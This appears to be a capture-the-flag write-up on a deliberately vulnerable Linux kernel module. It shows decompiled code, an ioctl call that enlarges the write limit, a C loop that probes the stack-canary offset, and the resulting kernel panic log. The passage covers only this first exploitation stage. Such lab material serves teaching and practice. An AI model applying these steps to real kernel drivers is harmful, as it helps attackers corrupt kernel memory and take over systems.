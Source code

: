 

# Exploit.

If we analyze the swrite function we can see there is a costraint:

    if (sx.q(MaxBuffer) u< arg3)

trying with the fuzzy writes we get this as response:

    Your chosen size is too large

Because initial buffer size is 0x40 so we need to increase it, how?

    0000017e  int64_t sioctl(int64_t arg1, int32_t arg2, int64_t arg3)
    
    0000018c      printk(0x2a8)
    00000194      if (arg2 == 0x10)
    000001ad          printk(0x2b8, arg3)
    00000199      else if (arg2 != 0x20)
    000001bb          printk(0x2ce)
    0000019b      else
    0000019b          MaxBuffer = arg3.d
    000001c4      return 0
    
In the sioctl function if we do something like ioctl(fd, 0x20, int x) MaxBuffer will be equals to x... 

    ioctl(fd, 0x20, 240);

    for (int i=10; i<25; i++){
            unsigned long payload[i];
            write(fd, payload, sizeof(payload));
            printf("Offset: %d\n", i);
    }

Running it we get:

    Offset: 16
    [    4.073432] 136 bytes written to device
    [    4.075363] Kernel panic - not syncing: stack-protector: Kernel stack is corrupted in: swrite+0x66/0x70 [vuln]
    [    4.076924] CPU: 0 PID: 97 Comm: exploit Tainted: G           O      5.4.0 #1
    [    4.077650] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.15.0-1 04/01/2014
    [    4.081782] Call Trace:
    [    4.082975]  dump_stack+0x50/0x70
    [    4.083323]  panic+0xf6/0x2b7
    [    4.083550]  ? swrite+0x66/0x70 [vuln]
    [    4.083866]  __stack_chk_fail+0x10/0x10
    [    4.084106]  swrite+0x66/0x70 [vuln]
    [    4.084437]  proc_reg_write+0x37/0x60
    [    4.084762]  vfs_write+0xb1/0x190
    [    4.084961]  ksys_write+0x5a/0xd0
    [    4.085275]  do_syscall_64+0x43/0x110
    [    4.085603]  entry_SYSCALL_64_after_hwframe+0x44/0xa9
    [    4.086092] RIP: 0033:0x44f4d7
    [    4.086671] Code: ff ff f7 d8 64 89 02 48 c7 c0 ff ff ff ff eb b7 0f 1f 00 f3 0f 1e fa 64 8b 04 25 18 00 00 00 85 c0 75 10 b8 01 00 00 00 0f 05 <48> 3d 00 f0 ff ff 77 51 c3 48 83 4
    [    4.089938] RSP: 002b:00007ffd22c68aa8 EFLAGS: 00000246 ORIG_RAX: 0000000000000001
    [    4.090807] RAX: ffffffffffffffda RBX: 00007ffd22c68b40 RCX: 000000000044f4d7
    [    4.091448] RDX: 0000000000000088 RSI: 00007ffd22c68ab0 RDI: 0000000000000003
    [    4.092454] RBP: 00007ffd22c68c70 R08: 0000000000000000 R09: 0000000000000000
    [    4.093167] R10: 000000000000000a R11: 0000000000000246 R12: 0000000000000011
    [    4.093815] R13: 0000000000000000 R14: 0000000000000011 R15: 0000000000000000
    [    4.094955] Kernel Offset: 0x2a200000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
